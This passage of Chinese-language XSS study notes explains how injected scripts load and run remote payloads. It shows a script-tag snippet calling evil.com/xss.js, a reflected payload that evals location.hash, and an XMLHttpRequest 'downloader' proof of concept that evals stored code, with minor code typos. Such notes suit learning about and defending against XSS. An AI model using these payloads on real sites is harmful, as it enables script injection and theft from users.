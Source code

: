 ```
使用script标签动态调用远程JavaScript   
基于DOM的方法创建和插入节点，把脚本或HTML注入到网页   
```
var s = document.createElement("script");
s.src="http://www.evil.com/xss.js";
document.getElementByTagName("head")[0].appendChild(s);
动态创建一个<script>标签，并设置其src属性指向，最后将JavaScript代码
插入到网页的<head>标签之后
```

## 1.62 window.location.hash  
如果仅仅时为了解决URL字符长度问题，还可以使用这个属性实现XSS Shellcode   
location是JavaScript管理地址栏的内置对象，location.href用来管理页面的URL，用locatin.href=url可以直接将页面重定向URL。    
location.hash可以用来获取或者设置页面的标签值。  例如：http://domain/#adim的 location.hash="#admin"。   

结合location.hash的特性调用Shellcode  ：
``` http://www.bug.com/veiw.php?sort="><script>eval(location.hash.substr(1))</script>#alert('XSS') 
eval(location.hash.substr(1))的作用是抽取#字符后面的字符，之后使用eval函数来执行其中的JavaScript代码。
```
## 1.63 XSS Downloader  
存储和调用Shellcode，即将其存储到网站的数据库中，包括网页信息、文章内容、个人资料等地方，然后再把他们下载下来执行。   
其实就是打造一个XSS downloader ，事先把Shellcode写在网站的某个页面，再利用XMLHTTP控件向网站发送HTTP请求，get或post，然后执行返回的数据。   

POC：  
```
function XSS(){
    a=new XMLHttpRequest；
    a.open('get','http://www.bug.com/11221.html',false);
    a.send();
    b=a.responseText;
    // unescape(),计算生成一个新的字符串，其中的十六进制转义序列将被其表示
    的字符替换。    
    //eval(); 是全局对象的一个函数属性，eval() 的参数是一个字符串。如果字符串表示的是表达式，eval() 会对表达式进行求值。如果参数表示一个或多个 JavaScript 语句，那么eval() 就会执行这些语句。
    eval(unescape(b.substring(b.indexOf('BOF|')+4,b.indexOf('|EOF'))));
}
XSS();
```
http://www.bug.com/11221.html  页面写入了Shellcode代码  
Xx09abxdddxBOF|alert(/xss)|EOFxxxx44xx1212





？location？  
？substring？
？indexOf()？

## HTMLIFrameElement.contentWindow
contentWindow 属性返回当前HTMLIFrameElement的Window对象. 你可以使用这个Window 对象去访问这个iframe的文档和它内部的DOM. 这个是可读属性, 但是它的属性像全局Window 一样是可以操作的.   
